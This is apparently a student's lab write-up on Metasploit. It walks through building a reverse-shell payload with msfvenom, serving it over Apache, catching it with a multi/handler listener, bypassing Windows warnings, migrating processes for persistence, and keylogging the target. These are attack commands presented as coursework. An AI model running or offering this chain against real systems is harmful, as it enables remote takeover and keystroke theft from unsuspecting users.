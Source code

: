 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
### NAME:N.NAVYA SREE
### REG NO:212223040138

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![Screenshot 2024-10-30 084351](https://github.com/user-attachments/assets/c13ae138-865e-4a0c-aa73-cb16bcab572a)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![Screenshot 2024-10-30 084404](https://github.com/user-attachments/assets/0d4bf214-1c2d-4239-83ca-c7a8ab4aef08)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![Screenshot 2024-10-30 084413](https://github.com/user-attachments/assets/21ab6ec8-d9aa-47b9-a2d2-cdfff4b1c690)



Start apache server
sudo systemctl apache2 start
## OUTPUT:
![Screenshot 2024-10-30 084419](https://github.com/user-attachments/assets/962ebb97-efcd-462e-bfa5-6c2397d28e09)


Check the status of apache2
## OUTPUT:
![Screenshot 2024-11-01 185608](https://github.com/user-attachments/assets/1a687a16-3aa3-40b5-92d4-e38582c25ade)


Invoke msfconsole:
## OUTPUT:
![Screenshot 2024-10-30 084437](https://github.com/user-attachments/assets/47538d80-0d1b-41f2-95d8-6407caa05d29)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![Screenshot 2024-10-09 082914](https://github.com/user-attachments/assets/4622b76d-8df9-45f6-a299-81e4fa841f89)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![Screenshot 2024-10-09 082927](https://github.com/user-attachments/assets/37229e74-48c4-438f-b719-8eaeb3442bb1)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![Screenshot 2024-10-09 082936](https://github.com/user-attachments/assets/6c2f5125-3af1-4220-9d09-3de65ce1c6f1)

Bypass any warning boxes, double-click the file, and allow it to run.

![Screenshot 2024-10-09 082947](https://github.com/user-attachments/assets/30514d6a-414c-4acc-8545-6bda15593bad)

On kali give the command exploit

![Screenshot 2024-10-09 082956](https://github.com/user-attachments/assets/ad2511f0-706e-42c8-bc08-8527e5b31cd5)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![Screenshot 2024-10-30 092955](https://github.com/user-attachments/assets/d0cee197-7029-4bd2-9514-08dd8ff8879a)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![Screenshot 2024-10-09 083017](https://github.com/user-attachments/assets/15693580-f55a-4729-89ea-b4a8245ad8fd)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Screenshot 2024-10-09 083042](https://github.com/user-attachments/assets/d3955e35-d9f8-4319-8e23-910884f3bf40)

![Screenshot 2024-10-09 083053](https://github.com/user-attachments/assets/a091a620-6605-4976-b330-edd98659798f)


keyscan_dump	Shows the keystrokes captured so far

![Screenshot 2024-10-09 083101](https://github.com/user-attachments/assets/e8496e1e-b936-41a6-b8d5-fcd5e86e8dd6)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
